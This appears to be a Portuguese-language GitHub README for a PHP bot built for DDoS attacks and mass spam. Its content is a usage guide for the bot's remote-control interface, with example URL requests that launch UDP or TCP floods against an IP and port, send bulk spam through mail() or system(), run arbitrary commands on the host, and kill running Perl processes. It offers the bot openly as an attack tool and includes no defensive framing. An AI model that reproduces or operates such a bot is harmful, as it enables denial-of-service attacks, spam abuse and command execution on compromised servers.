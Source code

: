 # PHP Bot (DDoS/Spam)

Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

###Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

###Functions details...
 - DDoS:
     command = ddos.
     flag = Attack method: udp, tcp.
     data = IP:PORT.
     
     phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22
     
 - Spam:
       command = spam, phpspam (spam via mail() function).
       flag = 1 é padrão para spam normal. 
              Para phpspam, 1 = Usa função system() para rodar enviador, 
              2 = Utiliza todas as funções (Envia repetido).
       data = null (default).
       
      POST data:
        maillist=...&subject=...&from=...&message=...
       
        phpBot.php?hash=admin&command=spam&flag=1&data=null
     
 - Run file:
   command = run.
   flag = 1 (default).
   data = Command to run
 
   phpBot.php?hash=admin&command=run&flag=1&data=dir.exe
   
 Kill dependencies:  
   command = kill.
   flag = 1 (default).
   data = null (default)
 
   phpBot.php?hash=admin&command=kill&flag=1&data=null

